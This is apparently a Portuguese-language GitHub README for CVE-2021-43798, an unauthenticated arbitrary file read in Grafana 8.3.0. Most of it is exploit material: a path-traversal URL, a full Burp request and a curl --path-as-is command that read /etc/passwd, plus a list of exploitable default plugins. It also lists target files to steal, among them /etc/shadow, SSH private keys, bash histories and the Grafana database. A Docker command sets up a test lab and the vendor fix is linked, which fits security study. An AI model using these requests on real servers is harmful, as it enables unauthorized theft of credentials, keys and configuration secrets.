 # CVE-2021-43798 Grafana | Vulnerabilidade de leitura arbitrária não autorizada de arquivos

**Versão 8.3.0**

Para mais informações da correção da falha:
https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/

Exemplo: Capturando o arquivo 
```/etc/passwd```

![Captura de tela 2022-05-20 075544](https://user-images.githubusercontent.com/39815226/169514111-8f8edb22-dc05-4daa-8b4c-f26dafdfd6b1.png)
![image](https://user-images.githubusercontent.com/39815226/169541792-ada64d9d-f6ef-4405-a87c-4dfaebeba74b.png)

## A Falha
A falha consiste em obter a leitura de arquivos locais sem a necessidade de credenciais válidas. É possível explorar a falha pelo [BurpSuite](https://portswigger.net/burp), Curl ou
qualquer linguagem de preferência.

A URL vulnerável:

```http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

#### No Burp
Enviamos essa requisição
```
GET /public/plugins/alertlist/../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:3000
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```
#### No Curl
Com a opção ```--path-as-is``` podemos enviar via Curl a seguinte requisição

```curl --path-as-is http://<IP_ALVO>:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

## Lista dos Plugins Padrões
Esta falha explora esses plugins padrões do sistema

_O arquivo está salvo como lista.txt_

```
alertlist
annolist
grafana-azure-monitor-datasource
barchart
bargauge
cloudwatch
dashlist
elasticsearch
gauge
geomap
gettingstarted
stackdriver
graph
graphite
heatmap
histogram
influxdb
jaeger
logs
loki
mssql
mysql
news
nodeGraph
opentsdb
piechart
pluginlist
postgres
prometheus
stat
state-timeline
status-history
table
table-old
tempo
testdata
text
timeseries
welcome
zipkin
```
## Arquivos Interessantes para Explorar
Alguns arquivos interessantes que é possível vizualizar com a falha
```
/conf/defaults.ini
/etc/grafana/grafana.ini
/etc/passwd
/etc/shadow
/home/grafana/.bash_history
/home/grafana/.ssh/id_rsa
/root/.bash_history
/root/.ssh/id_rsa
/usr/local/etc/grafana/grafana.ini
/var/lib/grafana/grafana.db
/proc/net/fib_trie
/proc/net/tcp
/proc/self/cmdline
```
## Criando um Ambiente de Testes
É possível recriar a falha em um ambiente de teste via [Docker](https://www.docker.com). Após ter feito as configurações iniciais do docker, basta seguir este comando

```docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:8.3.0```

Depois basta acessar ```http://localhost:3000``` e explorar

